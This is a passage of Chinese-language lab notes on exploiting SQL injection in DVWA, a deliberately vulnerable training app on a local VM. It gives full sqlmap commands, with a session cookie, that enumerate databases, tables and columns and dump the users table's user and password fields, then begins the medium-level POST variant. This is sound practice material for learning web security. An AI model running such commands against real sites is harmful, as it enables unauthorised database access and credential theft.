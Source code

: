 4.获取数据库

```
D:\sqlmap>sqlmap.py "http://192.168.120.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0 " -batch --dbs
```

![截图录屏_选择区域_20210127142003](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127142003.png)

![截图录屏_选择区域_20210127141851](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127141851.png)

发现有dvwa数据库

5.在dvwa库中获取数据表

```
D:\sqlmap>sqlmap.py "http://192.168.120.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0 " -batch -D dvwa --tables
```

![截图录屏_选择区域_20210127142211](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127142211.png)

发现有users和guestbook两个表，猜测数据在users表中

6.在users表中获取列

```
D:\sqlmap>sqlmap.py "http://192.168.120.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0 " -batch -D dvwa -T users --columns
```

![截图录屏_选择区域_20210127142442](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127142442.png)

发现user和password两个重要的列

7.获得user和password信息

```
D:\sqlmap>sqlmap.py "http://192.168.120.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=prasunu4qhs3eutb08uj24r3p0 " -batch -D dvwa -T users -C user,password --dump
```

![截图录屏_选择区域_20210127142708](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127142708.png)



### medium

1.medium是下拉式的，数据不能随便输入

![截图录屏_选择区域_20210127142823](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127142823.png)

2.进行抓包

![截图录屏_选择区域_20210127143753](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127143753.png)

发现是POST方式，发送的数据是`id=1&Submit=Submit`，所以在使用sqlmap时，可以作为输入的数据
